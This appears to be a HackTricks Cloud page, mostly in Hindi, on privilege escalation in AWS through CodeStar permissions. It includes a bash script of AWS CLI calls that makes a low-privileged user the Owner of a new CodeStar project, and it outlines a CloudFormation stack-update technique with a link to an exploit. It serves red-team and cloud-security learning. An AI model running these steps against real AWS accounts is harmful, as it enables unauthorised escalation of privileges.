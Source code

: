 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

आपको कोडस्टार के बारे में अधिक जानकारी मिल सकती है:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

इन अनुमतियों के साथ आप **कोडस्टार IAM भूमिका** का **दुरुपयोग** कर सकते हैं ताकि **मनमाने कार्य** को **क्लाउडफॉर्मेशन टेम्पलेट** के माध्यम से किया जा सके। निम्नलिखित पृष्ठ की जांच करें:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

यह तकनीक `codestar:CreateProject` का उपयोग करके एक कोडस्टार प्रोजेक्ट बनाती है, और `codestar:AssociateTeamMember` का उपयोग करके एक IAM उपयोगकर्ता को एक नए CodeStar **प्रोजेक्ट** का **स्वामी** बनाती है, जो उन्हें **कुछ अतिरिक्त अनुमतियों के साथ एक नई नीति** प्रदान करेगा।
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
यदि आप पहले से ही **प्रोजेक्ट के सदस्य** हैं, तो आप अनुमति **`codestar:UpdateTeamMember`** का उपयोग करके **अपना रोल** मालिक में अपडेट कर सकते हैं, इसके बजाय **`codestar:AssociateTeamMember`** के।

**संभावित प्रभाव:** codestar नीति में प्रिवेस्क। आप उस नीति का एक उदाहरण यहाँ पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **एक नया प्रोजेक्ट बनाएं:**
* एक नए प्रोजेक्ट के निर्माण को प्रारंभ करने के लिए **`codestar:CreateProjectFromTemplate`** क्रिया का उपयोग करें।
* सफल निर्माण पर, **`cloudformation:UpdateStack`** के लिए स्वचालित रूप से पहुंच दी जाती है।
* यह पहुंच विशेष रूप से `CodeStarWorker-<generic project name>-CloudFormation` IAM भूमिका से संबंधित एक स्टैक को लक्षित करती है।
2. **लक्षित स्टैक को अपडेट करें:**
* दी गई CloudFormation अनुमतियों के साथ, निर्दिष्ट स्टैक को अपडेट करने के लिए आगे बढ़ें।
* स्टैक का नाम आमतौर पर दो पैटर्न में से एक के अनुसार होगा:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* सटीक नाम चुने गए टेम्पलेट पर निर्भर करता है (उदाहरण शोषण स्क्रिप्ट का संदर्भ)।
3. **पहुँच और अनुमतियाँ:**
* अपडेट के बाद, आप स्टैक से जुड़े **CloudFormation IAM भूमिका** को सौंपे गए क्षमताएँ प्राप्त करते हैं।
* नोट: यह स्वाभाविक रूप से पूर्ण व्यवस्थापक विशेषाधिकार प्रदान नहीं करता है। विशेषाधिकार बढ़ाने के लिए वातावरण में अतिरिक्त गलत कॉन्फ़िगर किए गए संसाधनों की आवश्यकता हो सकती है।

अधिक जानकारी के लिए मूल शोध देखें: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
आप शोषण को यहाँ पा सकते हैं [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**संभावित प्रभाव:** cloudformation IAM भूमिका में प्रिवेस्क।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके हैकिंग ट्रिक्स साझा करें।**

</details>
{% endhint %}
